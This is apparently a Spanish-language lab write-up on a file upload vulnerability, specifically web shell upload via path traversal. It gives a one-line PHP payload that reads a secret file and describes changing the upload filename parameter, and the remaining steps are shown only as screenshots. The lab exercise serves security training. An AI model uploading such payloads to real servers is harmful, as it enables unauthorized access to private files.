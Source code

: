 # File upload vulnerabilities

# **Lab: Web shell upload via path traversal**

Creamos un archivo en .php que contenga un exploit de lectura y lo subimos. 

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Intentamos modificar el parámetro filename al momento de subir el archivo.

![image.png](File%20upload%20vulnerabilities%208f3ddce2bbee4506bb5bc326e86a745e/image.png)

![image.png](File%20upload%20vulnerabilities%208f3ddce2bbee4506bb5bc326e86a745e/image%201.png)

Accedemos a la web del usuario y vemos que se carga la “foto” que hemos subido.

![image.png](File%20upload%20vulnerabilities%208f3ddce2bbee4506bb5bc326e86a745e/image%202.png)

![image.png](File%20upload%20vulnerabilities%208f3ddce2bbee4506bb5bc326e86a745e/image%203.png)

![image.png](File%20upload%20vulnerabilities%208f3ddce2bbee4506bb5bc326e86a745e/image%204.png)

![image.png](File%20upload%20vulnerabilities%208f3ddce2bbee4506bb5bc326e86a745e/image%205.png)